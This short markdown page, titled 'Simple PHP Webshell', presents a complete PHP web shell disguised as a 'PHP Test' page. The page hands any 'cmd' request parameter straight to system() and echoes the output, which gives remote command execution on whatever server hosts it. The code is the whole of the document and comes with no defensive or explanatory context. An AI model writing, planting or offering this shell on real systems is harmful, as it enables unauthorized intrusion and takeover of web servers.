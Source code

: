 Simple PHP Webshell
-------------------

```html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```
